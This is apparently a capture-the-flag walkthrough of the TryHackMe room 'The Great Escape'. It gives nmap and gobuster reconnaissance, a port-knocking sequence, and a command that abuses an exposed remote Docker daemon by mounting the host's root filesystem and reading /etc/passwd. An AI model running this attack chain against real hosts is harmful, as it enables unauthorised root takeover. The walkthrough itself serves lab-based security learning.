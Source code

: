 # The Great Escape

**Room Link:** [https://tryhackme.com/r/room/thegreatescape](https://tryhackme.com/r/room/thegreatescape)



## Initial Scan <a href="#initial-scan" id="initial-scan"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports <a href="#scan-all-ports" id="scan-all-ports"></a>

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP <a href="#tcp-8080-http" id="tcp-8080-http"></a>

Its returning too much from 200 so we need to filter it out

**Kali**

```
gobuster -e dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt --wildcard
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

Had to add .well-known to the wordlist, wasn't in any of Tryhackme's default wordlists

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/dirb/common.txt  --wildcard  -s"204,301,302,307,401,403"
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

None of this was working, try later.

**Kali**

```
dirb http://$VICTIM/.well-known -X .txt
```

**Kali**

```
curl http://$VICTIM/.well-known/security.txt
```

**Kali**

```
curl http://$VICTIM/api/fl46
```

**Kali**

```
curl http://$VICTIM/robots.txt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (862).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (863).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (864).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (865).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (866).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (868).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (867).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (869).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/grongor/knock.git
cd knock
./knock $VICTIM 42 1337 10420 6969 63000
nmap $VICTIM -p 2375
```

<figure><img src="../../.gitbook/assets/image (870).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
subl /etc/docker/daemon.json
```

**daemon.json**

```
{
  "insecure-registries" : ["10.10.90.88:2375"]
}
```

**Kali**

```
sudo systemctl stop docker
```

Wait 30 seconds

**Kali**

```
sudo systemctl start docker
```

**Kali**

```
docker -H $VICTIM:2375 images
docker -H $VICTIM:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
cat /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (871).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (872).png" alt=""><figcaption></figcaption></figure>

